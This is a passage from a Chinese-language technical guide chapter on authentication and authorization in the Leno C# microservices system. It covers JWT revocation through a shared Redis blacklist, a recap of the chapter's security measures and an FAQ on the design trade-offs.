    if (string.IsNullOrEmpty(jti) || string.IsNullOrEmpty(expClaim))
    {
        return BadRequest(ApiResponse.Fail(400, "Token 缺少必要声明"));
    }

    var exp = long.Parse(expClaim, System.Globalization.CultureInfo.InvariantCulture);
    var expiry = DateTimeOffset.FromUnixTimeSeconds(exp);
    var ttl = expiry - DateTimeOffset.UtcNow;
    if (ttl > TimeSpan.Zero)
    {
        await _revocationService.RevokeAsync(jti, ttl, ct);
    }

    return Ok(ApiResponse.Success());
}
```

UserAuth BC 的 `JwtRevocationService` 与网关的 `JwtBlacklistService` **共用同一 Redis 实例与同一 Key 前缀** `leno:jwt:blacklist:`，确保写入端与读取端语义一致：

```csharp
// [JwtRevocationService.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/UserAuth/Leno.UserAuth.Application/Services/JwtRevocationService.cs#L10-L26)

public sealed class JwtRevocationService : IJwtRevocationService
{
    private readonly IConnectionMultiplexer _redis;
    private readonly ILogger<JwtRevocationService> _logger;

    public JwtRevocationService(IConnectionMultiplexer redis, ILogger<JwtRevocationService> logger)
    {
        _redis = redis;
        _logger = logger;
    }

    public async Task RevokeAsync(string jti, TimeSpan ttl, CancellationToken ct = default)
    {
        var db = _redis.GetDatabase();
        await db.StringSetAsync($"leno:jwt:blacklist:{jti}", "1", ttl);
        _logger.LogInformation("用户登出，JWT 已吊销 Jti={Jti}", jti);
    }
}
```

注意职责分离：

- **UserAuth BC `JwtRevocationService`**：只写不读，负责登出/封号时写入黑名单
- **API Gateway `JwtBlacklistService`**：只读不写（除本地缓存回填），负责每次请求检查 `jti` 是否在黑名单

两端通过 Redis Key 前缀 `leno:jwt:blacklist:` 解耦协作，无需 RPC 调用。当前业务 BC（如 Order、Payment）未实现黑名单逻辑，全部由网关在入口处统一拦截——这是合理的设计，因为下游 BC 收到的请求都已通过网关验签 + 黑名单检查，无需重复。

---

## 要点回顾

本章从认证、授权、内部 API 鉴权、gRPC 鉴权、敏感配置、输入验证、JWT 黑名单 7 个维度展开，核心要点：

1. **认证体系**：JWT 三段结构（Header/Payload/Signature）+ HS256 对称签名；`JwtTokenGenerator` 签发 `Sub`/`Jti`/`NameIdentifier`/`Role`/`role` 五个固定 Claim + 可选 `shop_id`；API Gateway 本地验签 + `UserContextTransformProvider` 注入 `X-User-Id`/`X-Role`/`X-Shop-Id` 头给下游 BC
2. **授权体系**：4 类角色（Buyer/Seller/Operator/Admin）× 11 BC 权限矩阵；Controller 层 `[Authorize(Roles = "...")]` 做角色门禁，Handler 内用 `shop_id` Claim 做资源级授权；`GatewayAuthHandler` 从网关注入的头构造 `ClaimsPrincipal`
3. **内部 API 鉴权**：`X-Internal-Key` 头 + `InternalApiKeyMiddleware` 拦截 `/api/v1/internal/*` 前缀路由；`FixedTimeEquals` 防计时侧信道；Development 降级 + 生产 fail-closed；12 条 Internal API 路由清单
4. **gRPC 鉴权**：`GrpcInternalKeyInterceptor` 拦截 metadata 中 `x-internal-key` 头；客户端通过 `AntiCorruptionOptions.TargetInternalApiKeys` 注入 metadata；与 HTTP 鉴权语义一致但实现机制不同
5. **敏感配置管理**：4 层优先级（环境变量 > Consul KV > appsettings.{Env}.json > appsettings.json）；`ValidateSensitiveConfig` 扩展方法校验 13 项 `SensitiveConfigKeys` + InternalApiKey 长度 ≥ 44；4 类必须环境变量配置清单
6. **输入验证**：FluentValidation 在 Application 层校验 DTO；XSS 防护靠后端不渲染 HTML + 输入清洗；SQL 注入防护靠 EF Core 参数化查询；CSRF 防护靠 Bearer Token + CORS 白名单
7. **JWT 黑名单**：Redis `leno:jwt:blacklist:{jti}` + `ConcurrentDictionary` 本地缓存双层检查；`JwtBlacklistMiddleware` 紧随 `UseAuthentication`；UserAuth BC `JwtRevocationService` 写入，API Gateway `JwtBlacklistService` 读取

## 常见问题

**Q1：为什么 JWT 同时写入 `ClaimTypes.Role` 和 `"role"` 两个 Claim？**

A：兼容不同验签库的角色解析方式。ASP.NET Core JwtBearer 中间件默认读 `ClaimTypes.Role`（值为 `"http://schemas.microsoft.com/ws/2008/06/identity/claims/role"`），但网关自定义代码与第三方库（如 Ocelot）可能读短名 `"role"`。双写保证两种解析方式都能正确取到角色，避免遗漏。`JwtTokenGenerator.GetRole` 方法也对应双路读取。

**Q2：InternalApiKey 在 Development 环境为空时放行，是否有安全风险？**

A：Development 环境仅用于本地开发，不暴露公网，且开发者通常不构造恶意请求。放行避免每个开发者都需配置 InternalApiKey 才能启动服务的负担。生产/Staging 环境严格 fail-closed：`InternalApiKeyMiddleware` 返回 500，`EnsureInternalApiKeyConfigured` 抛异常阻止启动，双重保障。

**Q3：为什么 gRPC 拦截器用普通字符串比较，而 HTTP 中间件用 `FixedTimeEquals`？**

A：HTTP 端点暴露在网关后，攻击者可通过网关直连 BC 的 `/api/v1/internal/*`（若网络层隔离失效），计时侧信道攻击面较大。gRPC 端点通常仅在内网服务网格内可达，攻击面较小，普通字符串比较已足够。如需更强防护，可在 `GrpcInternalKeyInterceptor` 中替换为 `CryptographicOperations.FixedTimeEquals(Encoding.UTF8.GetBytes(providedKey), Encoding.UTF8.GetBytes(expectedKey))`。

**Q4：JWT 黑名单的本地缓存 `ConcurrentDictionary` 会不会内存爆炸？**

A：不会。本地缓存只在 `IsRevokedAsync` 命中 Redis 黑名单时回填，缓存大小 ≤ Redis 黑名单大小。Redis 黑名单的 TTL = 令牌剩余有效期（最长 120 分钟），过期自动清理。本地缓存没有 TTL，但条目数受限于 Redis 黑名单条目数，最坏情况是所有未过期的被吊销令牌都进本地缓存——这本身就是个位数到千位数量级，内存可忽略。

**Q5：`ValidateSensitiveConfig` 返回 `false` 但不抛异常，为什么？**

A：扩展方法只负责"检测缺失"，"如何响应"由调用方决定。Cart BC 的 `Program.cs` 在非 Development 环境抛 `InvalidOperationException` 阻止启动，Development 环境仅 warning。这种分离让不同 BC 可采用不同策略——例如 Payment BC 可能在 Staging 也仅 warning（便于测试），而在 Production 严格 fail-closed。

**Q6：资源级授权为什么不用 `[Authorize(Policy = "ShopOwner")]` 统一封装？**

A：当前代码库的资源级授权在 Handler 内显式校验 `shop_id` 与资源 `ShopId` 字段。封装成 `ShopOwnerPolicy` 需要资源加载器（如 `IProductRepository`）注入到 AuthorizationHandler，跨 BC 通用性差（每个 BC 资源加载方式不同）。设计文档把 `[Authorize(Policy = "ShopOwner")]` 列为后续优化项，当前由各 BC 在 Handler 内用 `CurrentUser.ShopId` 比对，代码直白但重复。如需重构，可在共享内核提供 `ShopOwnerRequirement` + `ShopOwnerAuthorizationHandler<TResource>` 抽象基类。

**Q7：UserAuth BC 的 `JwtRevocationService` 与 API Gateway 的 `JwtBlacklistService` 为什么是两个类？**

A：职责分离 + 部署位置不同。`JwtRevocationService` 在 UserAuth BC，只负责"写"（登出时吊销），不读；`JwtBlacklistService` 在 API Gateway，只负责"读"（每次请求检查），不写。两端共用同一 Redis Key 前缀 `leno:jwt:blacklist:` 解耦协作。合并成一个类会引入跨 BC 依赖（UserAuth 依赖 Gateway 或反之），违反 BC 边界。

## 下一章衔接

本章聚焦安全与认证，但生产环境的"安全"不止于认证——还需要知道"系统现在健康吗？错误发生在哪？流量峰值多大？"。第 8 章「可观测性」将展开 Leno 的三支柱体系：Serilog 结构化日志、OpenTelemetry 分布式追踪、Prometheus 指标采集，以及如何用 Jaeger + Grafana + Alertmanager 构建从日志到告警的完整观测链路。第 8 章会用到本章的 `gateway_blacklist_hits` 指标（JWT 黑名单命中计数）作为告警示例，敬请期待。
